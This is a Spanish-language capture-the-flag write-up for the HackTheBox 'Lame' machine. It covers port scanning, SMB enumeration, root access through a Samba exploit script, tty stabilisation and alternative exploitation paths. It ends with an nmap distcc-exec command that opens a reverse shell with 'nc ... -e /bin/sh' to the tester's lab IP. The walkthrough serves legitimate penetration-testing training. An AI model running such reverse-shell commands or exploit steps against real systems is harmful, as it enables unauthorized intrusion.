







# Lame

Máquina **Lame** de dificultad **Easy**.


## Enumeración

Primeramente realizamos un escaneo nmap rápido para averiguar los puertos abiertos.

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```


Vemos que tenemos abiertos los puertos 21, 22, 139, 445 y 3632. Realizamos ahora un escaneo mas completo a estos puertos para averiguar versiones y demás.

```
sudo nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```


| Puerto | Servicio | Versión                  | Observaciones                     |
| ------ | -------- | ------------------------ | --------------------------------- |
| 21     | ftp      | vsftpd 2.3.4             | Permite acceso anónimo            |
| 22     | ssh      | OpenSSH 4.7p1            |                                   |
| 139    | smb      | Samba smbd 3.x-4-x       | No se determina la versión exacta |
| 445    | smb      | Samba smbd 3.0.20-Debian |                                   |
| 3632   | distccd  | distccd v1 4.2.4         |                                   |

Realizamos a continuación un reconocimiento para cada puerto.

### Reconocimiento FTP

Vemos que tenemos acceso anonimo. Vamos a ver si podemos obtener información y si tenemos permiso de escritura.



Vemos que no obtenemos ficheros ni podemos escribir con el usuario anónimo. De momento dejamos este servicio.

### Reconocimiento SMB

Enumeramos en detall el servicio SMB. Realizamos una enumeración utilizando **crackmapexec, smbmap y smbclient**.


Comprobamos con **crackmapexec** que es una máquina Unix de nombre  **LAME** y dominio **hackthebox.gr.**

Comprobamos con **smbmap** que existen vatios recursos compartidos, entre ellos **tmp** con permisos de escritura. Nos conectamos con **smbclient** a tmp pero no obtenemos mucho.

Comprobamos si existe algún exploit para esta versión de **SMB**.


Vemos que hay varios. Vamos a intentar explotar esta vía.

## Explotación

Revisamos el script que hemos encontrado y vemos que nos indica como usarlo.



Nos descargamos el script y lo lanzamos como se nos indica. Previamente nos ponemos a la escucha por el puerto 443.



Comprobamos que nos hemos conectado y que estamos en la maquina objetivo como **root**.

No tenemos pues que escalar privilegios. Hacemos un tratamiento de la tty con la siguiente secuencia de comandos:

```
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189
```

A continuación obtenemos las flags de user y de root.



Y damos la máquina por terminada.

## Otras formas de explotación

### Con SMBCLIENT

Buscamos exploit con searchexploit y encontramos uno de metasploit.&#x20;



Lo examinamos y vemos que lanza un comando como username anteponiendo **nohup** en el usuario y ademas tiene que ser SBMv1.


Podemos entonces lanzar lo mismo con smbclient.



### Explotando DISTCCC puerto 3632

Buscamos en Google "distccc exploit" y observamos que aparece en **hacktricks**.



Probamos con nmap como nos indica el articulo. En el comando ponemos la shell inversa.

```bash
nmap -p3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc 10.10.14.31 443 -e /bin/sh'"
```

